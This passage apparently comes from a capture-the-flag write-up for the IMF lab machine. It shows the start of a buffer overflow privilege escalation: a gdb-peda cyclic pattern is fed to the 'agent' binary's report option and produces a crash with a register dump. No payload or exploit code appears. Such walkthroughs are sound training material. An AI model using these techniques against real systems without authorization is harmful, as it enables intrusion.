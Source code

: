 ## Privilege Escalation
### Buffer Overflow

I used **gdb-peda** for the debugging process, opened the binary and generated a string of 300 charactes, and copied it.

```console
root@kali:~# gdb -q ./agent
Reading symbols from ./agent...
Download failed: Function not implemented.  Continuing without debug info for /root/imf/./agent.
(No debugging symbols found in ./agent)
gdb-peda$ pattern create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAU
AArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%'
```

Run the binary, enter the agent ID, choose the option number 3, paste the string generated above, and hit enter.

```console
gdb-peda$ run
Starting program: /root/imf/agent
Download failed: Function not implemented.  Continuing without debug info for /lib/ld-linux.so.2.
Download failed: Function not implemented.  Continuing without debug info for /root/imf/system-supplied DSO at 0xf7fc9000.
Download failed: Function not implemented.  Continuing without debug info for /lib32/libc.so.6.
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 48093572
Login Validated
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
0. Exit
Enter selection: 3                                                                                                                                                  
Enter report update: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%
Report: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%
Submitted for review.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd394 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASA\224\323\377\377TAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
EBX: 0x0
ECX: 0xffffffff
EDX: 0xffffffff
ESI: 0x1
EDI: 0x8048500 (<_start>:       xor    ebp,ebp)
EBP: 0x41417241 ('ArAA')
```